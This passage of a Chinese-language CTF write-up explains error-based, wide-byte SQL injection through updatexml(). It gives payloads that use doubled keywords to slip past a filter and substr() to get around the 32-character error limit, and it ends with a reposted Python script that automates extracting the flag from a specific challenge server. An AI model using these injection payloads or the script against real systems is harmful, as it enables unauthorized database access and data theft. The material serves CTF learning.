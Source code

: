 ![avatar](https://k1ng0fic3.github.io/images/sql17.png)

这xxd一看就是co某dance歌词，隐写的思维，直接往最后看。

>name=admin%df' and updatexml(1,concat(1, (seleSELECTct concat(327a6c4304ad5938eaf0efb6cc3e53dc) from f14g limit 22,1),1),1) --+ &pw=123

得到：`R1hZe2cwT2Rfam9iMWltX3NvX3ZlZ2V0`解base64发现结果不全

![avatar](https://k1ng0fic3.github.io/images/sql18.png)

出现这种问题的原因是`updatexml()`限制长度为32位，超过32位的被丢弃了，所以上面无论是歌词还是flag，base64都经常缺个尾巴。
解决方法是用`substr()`它可以指定从字符串的某个位置开始，返回自定义长度：
>name=admin%df' and updatexml(1,concat(1, substr((seleselectct concat(327a6c4304ad5938eaf0efb6cc3e53dc) from f14g limit 22,1),10,32)),1) --+ &pw=123

![avatar](https://k1ng0fic3.github.io/images/sql19.png)

得到`Rfam9iMWltX3NvX3ZlZ2V0YWJsZX0=`，把它和`R1hZe2cwT2Rfam9iMWltX3NvX3ZlZ2V0`对比一下，整合得到`R1hZe2cwT2Rfam9iMWltX3NvX3ZlZ2V0YWJsZX0=`解base64，完毕。

![avatar](https://k1ng0fic3.github.io/images/sql20.png)

这个时候回想一下，是不是在f14g表中，也可以用这个办法查出flag列的信息呢，哈哈

<5> 转载工具
看了下*Nepnep*师傅们的WP，给出了一个updatexml的自动化脚本，转发以宣传之。
作者Shana、7TNE7，[原文链接](http://www.qfrost.com/PWN/GXY_CTF_2019/)

```python
import requests
import re
import base64

url = "http://183.129.189.60:10006/search.php/search.php?name=admin%df' and updatexml(1,concat(unhex(60),( substr((selselectect group_concat(327a6c4304ad5938eaf0efb6cc3e53dc) from f14g),{},32)),unhex(60)),1)--+&pw=123"
num = 1
regularFilterStr = r"Error: XPATH syntax error: '`(.+?)'"
allBase64Str = ''
while 1:
    payload = url.format(num)
    num = num+31
    response = requests.get(payload)
    html = response.text
    if '`' in re.findall(regularFilterStr,html)[0]:
        break
    allBase64Str += re.findall(regularFilterStr,html)[0]

lists = allBase64Str.split(',')

for i in lists:
     print(base64.b64decode(i))
```
